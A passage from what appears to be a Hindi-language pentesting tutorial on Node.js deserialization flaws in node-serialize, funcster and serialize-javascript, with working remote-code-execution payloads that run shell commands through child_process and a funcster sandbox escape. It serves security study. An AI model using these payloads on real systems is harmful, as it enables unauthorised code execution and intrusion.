 जैसा कि पहले संकेत दिया गया था, यह पुस्तकालय `_$$ND_FUNC$$_` के बाद कोड प्राप्त करेगा और इसे `eval` का उपयोग करके **निष्पादित करेगा**। इसलिए, **कोड को स्वचालित रूप से निष्पादित** करने के लिए आप **कार्य निर्माण** भाग और अंतिम कोष्ठक को **हटा सकते हैं** और **बस एक JS एकल रेखा** निष्पादित कर सकते हैं जैसे कि निम्नलिखित उदाहरण में:
```javascript
var serialize = require('node-serialize');
var test = '{"rce":"_$$ND_FUNC$$_require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) })"}';
serialize.unserialize(test);
```
आप [**यहां खोज सकते हैं**](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) **इस कमजोरियों का शोषण करने के बारे में अधिक जानकारी**।

### [funcster](https://www.npmjs.com/package/funcster)

**funcster** का एक महत्वपूर्ण पहलू **मानक अंतर्निहित वस्तुओं** की अनुपलब्धता है; ये सुलभ दायरे से बाहर हैं। यह प्रतिबंध उन कोडों के निष्पादन को रोकता है जो अंतर्निहित वस्तुओं पर विधियों को कॉल करने का प्रयास करते हैं, जिससे `"ReferenceError: console is not defined"` जैसी अपवाद उत्पन्न होते हैं जब `console.log()` या `require(something)` जैसे कमांड का उपयोग किया जाता है।

इस सीमा के बावजूद, सभी मानक अंतर्निहित वस्तुओं सहित वैश्विक संदर्भ तक पूर्ण पहुंच को पुनर्स्थापित करना एक विशिष्ट दृष्टिकोण के माध्यम से संभव है। वैश्विक संदर्भ का सीधे लाभ उठाकर, कोई इस प्रतिबंध को बायपास कर सकता है। उदाहरण के लिए, निम्नलिखित स्निपेट का उपयोग करके पहुंच को फिर से स्थापित किया जा सकता है:
```javascript
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function() { return "Hello world!" })
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = { __js_function: 'this.constructor.constructor("console.log(1111)")()' }
funcster.deepDeserialize(desertest2)
var desertest3 = { __js_function: 'this.constructor.constructor("require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });")()' }
funcster.deepDeserialize(desertest3)
```
**के लिए**[ **अधिक जानकारी के लिए इस स्रोत को पढ़ें**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### [**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)

**serialize-javascript** पैकेज विशेष रूप से अनुक्रमण के उद्देश्यों के लिए डिज़ाइन किया गया है, जिसमें कोई अंतर्निहित अव्यवस्थित करने की क्षमताएँ नहीं हैं। उपयोगकर्ता अव्यवस्थित करने के लिए अपनी स्वयं की विधि लागू करने के लिए जिम्मेदार हैं। अनुक्रमित डेटा को अव्यवस्थित करने के लिए आधिकारिक उदाहरण द्वारा `eval` का प्रत्यक्ष उपयोग सुझाया गया है:
```javascript
function deserialize(serializedJavascript){
return eval('(' + serializedJavascript + ')');
}
```
यदि इस फ़ंक्शन का उपयोग ऑब्जेक्ट्स को डीसिरियलाइज़ करने के लिए किया जाता है, तो आप इसे **आसान तरीके से शोषण कर सकते हैं**:
```javascript
var serialize = require('serialize-javascript');
//Serialization
var test = serialize(function() { return "Hello world!" });
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```